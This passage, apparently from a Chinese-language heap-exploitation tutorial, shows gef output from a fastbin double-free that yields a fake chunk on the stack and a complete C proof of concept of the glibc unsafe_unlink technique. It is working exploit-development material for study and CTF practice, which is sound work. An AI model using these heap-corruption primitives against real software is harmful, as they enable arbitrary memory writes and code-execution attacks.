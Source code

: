 ```
Fastbins[idx=0, size=0x10]  ←  Chunk(addr=0x7fffffffdc40, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x602020, size=0x0, flags=) [incorrect fastbin_index]
```
再次 malloc，即可在 fake chunk 处分配内存：
```
gef➤  x/5gx 0x7fffffffdc38-0x8
0x7fffffffdc30:	0x0000000000000000	0x0000000000000021 <-- fake chunk 
0x7fffffffdc40:	0x4747474747474747	0x0000000000602000
0x7fffffffdc50:	0x0000000000602030
```

所以对于 fastbins，可以通过 double-free 覆盖 fastbins 的结构，来获得一个指向任意地址的指针。

#### unsafe_unlink
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>

uint64_t *chunk0_ptr;

int main() {
    int malloc_size = 0x80; // not fastbins
    int header_size = 2;

    chunk0_ptr = (uint64_t*) malloc(malloc_size); //chunk0
    uint64_t *chunk1_ptr  = (uint64_t*) malloc(malloc_size); //chunk1
    fprintf(stderr, "The global chunk0_ptr is at %p, pointing to %p\n", &chunk0_ptr, chunk0_ptr);
    fprintf(stderr, "The victim chunk we are going to corrupt is at %p\n\n", chunk1_ptr);

    // pass this check: (P->fd->bk != P || P->bk->fd != P) == False
    chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*3);
    chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*2);
    fprintf(stderr, "Fake chunk fd: %p\n", (void*) chunk0_ptr[2]);
    fprintf(stderr, "Fake chunk bk: %p\n\n", (void*) chunk0_ptr[3]);
    // pass this check: (chunksize(P) != prev_size (next_chunk(P)) == False
    // chunk0_ptr[1] = 0x0; // or 0x8, 0x80

    uint64_t *chunk1_hdr = chunk1_ptr - header_size;
    chunk1_hdr[0] = malloc_size;
    chunk1_hdr[1] &= ~1;

    // deal with tcache
    // int *a[10];
    // int i;
    // for (i = 0; i < 7; i++) {
	// 	a[i] = malloc(0x80);
	// }
	// for (i = 0; i < 7; i++) {
	// 	free(a[i]);
	// }
    free(chunk1_ptr);

    char victim_string[9];
    strcpy(victim_string, "AAAAAAAA");
    chunk0_ptr[3] = (uint64_t) victim_string;
    fprintf(stderr, "Original value: %s\n", victim_string);

    chunk0_ptr[0] = 0x4242424242424242LL;
    fprintf(stderr, "New Value: %s\n", victim_string);
}
```
```
```